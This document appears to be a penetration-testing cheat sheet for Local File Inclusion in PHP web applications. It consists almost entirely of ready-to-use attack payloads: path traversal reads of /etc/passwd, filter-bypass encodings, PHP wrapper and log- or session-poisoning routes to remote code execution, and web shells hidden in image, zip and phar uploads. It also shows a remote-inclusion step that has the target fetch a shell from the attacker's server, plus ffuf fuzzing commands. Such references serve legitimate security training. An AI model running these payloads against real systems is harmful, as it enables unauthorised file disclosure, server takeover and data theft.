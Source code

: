 # Local File Inclusion

## Commands

### Basic LFI
| Command | Description |
|---------|-------------|
| `/index.php?language=/etc/passwd` | Basic LFI |
| `/index.php?language=../../../../etc/passwd` | LFI with path traversal |
| `/index.php?language=/../../../etc/passwd` | LFI with name prefix |
| `/index.php?language=./languages/../../../../etc/passwd` | LFI with approved path |

### LFI Bypasses
| Command | Description |
|---------|-------------|
| `/index.php?language=....//....//....//....//etc/passwd` | Bypass basic path traversal filter |
| `/index.php?language=%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%65%74%63%2f%70%61%73%73%77%64` | Bypass filters with URL encoding |
| `/index.php?language=non_existing_directory/../../../etc/passwd/./././.[./ REPEATED ~2048 times]` | Bypass appended extension with path truncation (obsolete) |
| `/index.php?language=../../../../etc/passwd%00` | Bypass appended extension with null byte (obsolete) |
| `/index.php?language=php://filter/read=convert.base64-encode/resource=config` | Read PHP with base64 filter |

## Remote Code Execution

### PHP Wrappers
| Command                                                                                                                     | Description             |
| --------------------------------------------------------------------------------------------------------------------------- | ----------------------- |
| `/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=id`                    | RCE with data wrapper   |
| `curl -s -X POST --data '<?php system($_GET["cmd"]); ?>' "http://<SERVER_IP>:<PORT>/index.php?language=php://input&cmd=id"` | RCE with input wrapper  |
| `curl -s "http://<SERVER_IP>:<PORT>/index.php?language=expect://id"`                                                        | RCE with expect wrapper |

### RFI
| Command                                                                                        | Description                  |
| ---------------------------------------------------------------------------------------------- | ---------------------------- |
| `echo '<?php system($_GET["cmd"]); ?>' > shell.php && python3 -m http.server <LISTENING_PORT>` | Host web shell               |
| `/index.php?language=http://<OUR_IP>:<LISTENING_PORT>/shell.php&cmd=id`                        | Include remote PHP web shell |

### LFI + Upload
| Command | Description |
|---------|-------------|
| `echo 'GIF8<?php system($_GET["cmd"]); ?>' > shell.gif` | Create malicious image |
| `/index.php?language=./profile_images/shell.gif&cmd=id` | RCE with malicious uploaded image |
| `echo '<?php system($_GET["cmd"]); ?>' > shell.php && zip shell.jpg shell.php` | Create malicious zip archive 'as jpg' |
| `/index.php?language=zip://shell.zip%23shell.php&cmd=id` | RCE with malicious uploaded zip |
| `php --define phar.readonly=0 shell.php && mv shell.phar shell.jpg` | Create malicious phar 'as jpg' |
| `/index.php?language=phar://./profile_images/shell.jpg%2Fshell.txt&cmd=id` | RCE with malicious uploaded phar |

### Log Poisoning
| Command | Description |
|---------|-------------|
| `/index.php?language=/var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd` | Read PHP session parameters |
| `/index.php?language=%3C%3Fphp%20system%28%24_GET%5B%22cmd%22%5D%29%3B%3F%3E` | Poison PHP session with web shell |
| `/index.php?language=/var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd&cmd=id` | RCE through poisoned PHP session |
| `curl -s "http://<SERVER_IP>:<PORT>/index.php" -A '<?php system($_GET["cmd"]); ?>'` | Poison server log |
| `/index.php?language=/var/log/apache2/access.log&cmd=id` | RCE through poisoned PHP session |

## Misc

### Fuzzing
| Command | Description |
|---------|-------------|
| `ffuf -w /opt/useful/SecLists/Discovery/Web-Content/burp-parameter-names.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?FUZZ=value' -fs 2287` | Fuzz page parameters |
| `ffuf -w /opt/useful/SecLists/Fuzzing/LFI/LFI-Jhaddix.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=FUZZ' -fs 2287` | Fuzz LFI payloads |
| `ffuf -w /opt/useful/SecLists/Discovery/Web-Content/default-web-root-directory-linux.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=../../../../FUZZ/index.php' -fs 2287` | Fuzz webroot path |
| `ffuf -w ./LFI-WordList-Linux:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=../../../../FUZZ' -fs 2287` | Fuzz server configurations |

## File Inclusion Functions

### Comparison Table
| Function | Read Content | Execute | Remote URL |
|----------|--------------|---------|------------|
| **PHP** |
| `include()/include_once()` | Yes | Yes | Yes |
| `require()/require_once()` | Yes | Yes | No |
| `file_get_contents()` | Yes | No | Yes |
| `fopen()/file()` | Yes | No | No |
| **NodeJS** |
| `fs.readFile()` | Yes | No | No |
| `fs.sendFile()` | Yes | No | No |
| `res.render()` | Yes | Yes | No |
| **Java** |
| `include` | Yes | No | No |
| `import` | Yes | Yes | Yes |
| **.NET** |
| `@Html.Partial()` | Yes | No | No |
| `@Html.RemotePartial()` | Yes | No | Yes |
| `Response.WriteFile()` | Yes | No | No |
| `include` | Yes | Yes | Yes |


## LFI Wordlists

[LFI Wordlists](https://github.com/danielmiessler/SecLists/tree/master/Fuzzing/LFI)
[LFI-Jhaddix.txt](https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/LFI/LFI-Jhaddix.txt)
[Webroot path wordlist for Linux](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/default-web-root-directory-linux.txt)
[Webroot path wordlist for Windows](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/default-web-root-directory-windows.txt)
[Server configurations wordlist for Linux](https://raw.githubusercontent.com/DragonJAR/Security-Wordlist/main/LFI-WordList-Linux)
[Server configurations wordlist for Windows](https://raw.githubusercontent.com/DragonJAR/Security-Wordlist/main/LFI-WordList-Windows)